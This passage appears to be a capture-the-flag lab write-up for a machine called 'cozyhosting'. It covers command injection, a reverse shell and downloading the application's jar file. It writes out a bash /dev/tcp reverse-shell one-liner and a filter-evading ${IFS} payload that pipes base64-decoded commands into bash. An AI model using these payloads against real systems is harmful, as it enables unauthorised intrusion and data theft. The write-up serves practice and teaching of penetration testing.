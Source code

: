 
Hence, a method has finally been found that would allow the vulnerability to be leveraged to execute commands on the target machine, which can be used to send a reverse shell. 


First, a netcat listener was started on port 1234 to catch as reverse shells that may be sent from the server. Next the command \`bash${IFS}-i${IFS}\>&\${IFS}/dev/tcp/\<IP>/1234${IFS}0\>&1\` was sent the server, but failed to send a reverse shell. It took some experimenting with bash commands, however, a valid method was finally identified for sending the reverse shell. First, the bash command `bash -i >& /dev/tcp/<IP>/1234 0>&1`, which is typically used to send a reverse shell, was encoded in base64. Next, the below command was constructed:


```bash
`echo${IFS}"<base64 command>"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash`
```


When the server executes the command, this will make the server decode the contents of the base64 string, then execute the decoded string as a bash command. However, the decoded base64 string will contain the command that will trigger a reverse shell.


As a result, a reverse shell was obtained as user "app" on the machine "cozyhosting".


While enumerating through the target machine, first it was checked what files were located in the current directory. There a file called "cloudhosting-0.0.1.jar" was found. Furthermore upon running `ls /home`, the user "josh" was found. 

Jar files are used to package Java class files, associated metadata, and resources (such as images, text files, etc.) into a single file. Hence, reading through the contents of the Jar could reveal sensitive information which can be exploited. 

In order to read the Jar file, first it must be sent to the user's machine. To do this a http server was started on the target machine on port 80 through this command:


``` bash
app@cozyhosting:/app$ python3 -m http.server 8000
```


Next the wget command is used to download the file from the target machne:


```bash
kali@kali:~/Desktop$ wget http://10.10.11.230:8000/cloudhosting-0.0.1.jar
--2023-12-19 19:18:25--  http://10.10.11.230:8000/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.j 100%[======================>]  57.47M   442KB/s    in 76s     

2023-12-19 19:19:42 (776 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```


Upon downloading the file, the Jar file can now be read. An online app "EzyZip" was used as it contained a Jar file decompiler. Upon uploading the file to "EasyZip", this allowed the Jar file to be viewed.
